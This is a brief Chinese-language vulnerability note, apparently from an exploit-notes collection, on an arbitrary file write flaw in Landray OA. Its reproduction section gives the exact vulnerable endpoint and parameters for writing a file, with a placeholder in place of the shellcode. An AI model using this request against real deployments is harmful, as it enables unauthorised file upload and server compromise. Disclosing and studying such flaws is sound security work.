 # 蓝凌OA 任意文件写入漏洞

## 漏洞描述

蓝凌OA 存在任意文件写入漏洞，攻击者可以上传恶意文件

## 漏洞影响

> [!NOTE]
>
> 蓝凌OA

## 漏洞复现

/sys/search/sys_search_main/sysSearchMain.do?method=editParam&fdParemNames=11&FdParameters=[shellcode]